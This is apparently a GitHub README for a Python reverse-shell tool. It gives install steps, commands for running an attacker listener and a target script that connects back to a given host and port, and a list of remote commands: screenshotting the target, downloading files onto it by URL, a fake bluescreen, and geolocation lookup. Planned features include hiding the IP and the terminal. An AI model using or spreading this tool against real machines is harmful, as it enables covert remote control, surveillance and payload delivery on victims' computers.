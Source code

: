 # Reverse Shell #

Reverse shell implementation using Python.
<br/><br/>

<p align="center">
  <img src="./screenshot/reverse_shell_01.gif" with="600" height="339">
</p>


## Installation ##
**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/ult_reverse_shell

# change the working directory to reverse shell
$ cd reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage ##
### 1. Listen for target ###
On attacker machine, run the `attacker.py` script.
```
python3 attacker.py [port]
```

### 2. Execute reverse shell ###
On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```


## Commands ##
```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```


## Features ##
### Implemented ###
* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented ###
* Packet encoder/decoder.


## TODOs ##
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
